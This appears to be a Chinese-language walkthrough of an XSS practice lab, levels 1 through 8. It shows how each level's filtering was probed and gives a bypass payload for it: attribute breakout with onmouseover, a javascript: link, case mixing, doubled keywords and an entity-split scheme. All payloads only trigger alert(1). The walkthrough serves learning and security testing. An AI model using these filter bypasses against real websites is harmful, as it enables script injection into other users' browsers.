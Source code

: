 ## level1
反射型XSS</br>
```java
payload：?name=<script>alert(1)</script>
```

## level2
```java
payload："><script>alert(1)</script>
```

## level3
输入1<"">''内容然后搜索，查看源代码，两个回显点均过滤特殊字符，但是单引号未过滤。</br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(1).png height="300" width="650">
```java
payload：1' onmouseover='alert(1)
```
鼠标划过输入框上面即弹窗：</br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(2).png height="300" width="650">

## level4
跟上一关一样，双引号的不同。</br>
```java
payload：1” onmouseover=“alert(1)
```

## level5
script大小写、on事件被禁用：</br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(3).png height="300" width="650"></br>
但是双引号、单引号、尖括号都可以用</br>
```java
payload：1"><a href="javascript:alert(1)">
```

## level6
script、on事件、href链接相关词被转义：</br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(4).png height="300" width="650"></br>
可以大小写绕过：</br>
```java
payload：1"><scRipt>alert(1)</scRipt>
```

## level7
输入<script><onerror><a hRef>测试，发现对关键字进行了过滤，且大小写不能绕过：</br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(5).png height="300" width="650"></br>
发现对关键字只进行了一次过滤，可以对关键字双写绕过：</br>
```java
payload：1" oonnmouseover="alert(1)
```
  
## level8
先输入一些关键字符[<scripT><oNerror><a Href>""'']，测试防御情况，看到关键字都被转义，看到a标签考虑使用”<a href="javascript:alert(1)"></a>“，页面有回显的超链接，想办法将script转码一下。</br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(6).png height="300" width="650"></br>
尝试用如下方式对标签属性值进行转码：</br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(7).png></br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(8).png></br>
```java
payload：javasc&#13ript:alert(1)
```













